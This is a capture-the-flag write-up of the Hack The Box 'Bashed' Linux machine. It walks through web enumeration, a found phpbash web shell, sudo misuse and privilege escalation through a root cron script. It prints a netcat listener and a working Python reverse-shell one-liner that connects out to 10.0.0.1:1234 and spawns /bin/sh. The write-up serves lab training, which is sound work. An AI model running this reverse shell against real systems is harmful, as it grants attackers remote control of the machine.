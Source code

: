 ```yaml
---

title: " Write Up for BASHED "

categories:
  - Hack The Box
tags:
  - Linux
  - HTB

---
```


# BASHED

This is an easy box based on linux 

---


## Reco

Time to scan, for this one i used ZenMap : 
![alt text](/assets/images/bashed/zenmap.png?raw=true "zenmap")

We find the port 80, let's check it out.

![alt text](/assets/images/bashed/website.png?raw=true "web")

The site looks like a presentation for a Reverse Shell in PHP, their is also a link for it on GitHub.

The tool is name "phpbash.php", it might be present on the website, who knows ?

Let's try the same URL as shown in GitHub: http://10.10.10.68/upload/phpbash.php 

ahh nothing

Time To dirb !
![alt text](/assets/images/bashed/dirb.png?raw=true "dirbuster")

Ok we found it ! http://10.10.10.68/dev/phpbash.php

So, i guess we have a reverse shell already?
![alt text](/assets/images/bashed/php.png?raw=true "phpbash")

Lets upload LineNum.sh to get some informations.
![alt text](/assets/images/bashed/getLinenum.png?raw=true "phpbash")

We have some users
![alt text](/assets/images/bashed/user.png?raw=true "userlist")

 and some interresting things 
![alt text](/assets/images/bashed/nooPass.png?raw=true "nopasswd")

## Exploit

Ok so this mean we can su to scriptmanager without a password, thats great ! 

![alt text](/assets/images/bashed/userflag.png?raw=true "flag")

And we own the user :)

phpbash does not have a lot of permission so it's time to get a proper REshell.

For this one i'm using nc for the server : 

```bash
nc -nvlp 1234 
```

and python for the client : 

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![alt text](/assets/images/bashed/reshellbien.png?raw=true "Autoruns")

No its time to privesc, lets check out some linux stuff.

We can see a directory name scripts at the root that contain a basic python script wich is executed 
regularly and got root privileges.

![alt text](/assets/images/bashed/scripts.png?raw=true "script")

let's upload our reverse shell here..

I'm using a python script for this one.

![alt text](/assets/images/bashed/rooot.png?raw=true "root")

Aaaaand we are Root !




